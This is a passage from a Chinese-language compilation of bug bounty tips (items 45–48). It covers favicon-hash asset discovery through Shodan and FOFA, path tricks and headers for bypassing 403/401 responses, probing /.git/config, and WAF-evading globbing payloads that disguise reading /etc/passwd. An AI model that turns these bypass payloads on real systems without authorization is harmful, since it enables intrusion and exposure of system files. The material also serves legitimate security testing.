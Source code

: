 45、可以获取目标站点的favicon.ico图标的哈希值，然后配合shodan进行目标站点资产收集，因为每个目标站点的favicon.ico图标的哈希值可能是固定值，因此可以通过该方法从shodan，fofa等等去寻找更多资产。
简单的用法：
```
#python 3 
import mmh3 
import requests 
import codecs 
response = requests.get("https://www.baidu.com/favicon.ico") 
favicon = codecs.encode(response.content,"base64") 
hash = mmh3.hash(favicon) 
print(hash)
```
或使用下面这个github项目：[GitHub - devanshbatham/FavFreak: Making Favicon.ico based Recon Great again !](https://github.com/devanshbatham/FavFreak)
shodan搜索语句：http.favicon.hash:哈希值 
fofa搜索语句：icon\_hash="-247388890"（但仅限于高级用户使用）
原文链接：[Bug Bounty Tips #8 - InfosecMatter](https://www.infosecmatter.com/bug-bounty-tips-8-oct-14/#8_database_of_500_favicon_hashes_favfreak)

46、绕过403和401的小技巧：
a、添加以下请求头，比如：X-Originating-IP, X-Remote-IP, X-Client-IP, X-Forwarded-For等等；有可能会有一些白名单IP地址可以访问这些敏感数据。
可以使用下面这些Payload试试
```
/accessible/..;/admin 
/.;/admin 
/admin;/ 
/admin/~ 
/./admin/./ 
/admin?param 
/%2e/admin 
/admin#
```
原文链接：[Bug Bounty Tips #8 - InfosecMatter](https://www.infosecmatter.com/bug-bounty-tips-8-oct-14/#11_tips_on_bypassing_403_and_401_errors)

47、如果访问/.git目录返回403，别忘了进一步访问下面的目录，比如：`/.git/config`

48、使用通配符绕过WAF，如果WAF拦截了RCE，LFI的payload，我们可以尝试使用通配符来绕过，比如：
```
/usr/bin/cat /etc/passwd == /???/???/c?t$IFS/?t?/p?s?wd 
? = 任意的单个字符 
\* = 任意字符串，也包含置空的字符串 
通配符在常见的系统中都适用，另外我们可以使用$IFS特殊变量取代空白
$IFS = 内部字段分隔符 = [space], [tab] 或者 [newline] 
cat /etc$u/p*s*wd$u 
小例子，执行/bin/cat /etc/passwd的写法： 
/*/?at$IFS/???/???swd 
/****/?at$IFS/???/*swd 
/****/?at$IFS/???/*******swd
```
原文地址：[Bug Bounty Tips #9 - InfosecMatter](https://www.infosecmatter.com/bug-bounty-tips-9-nov-16/#8_waf_bypass_using_globbing)
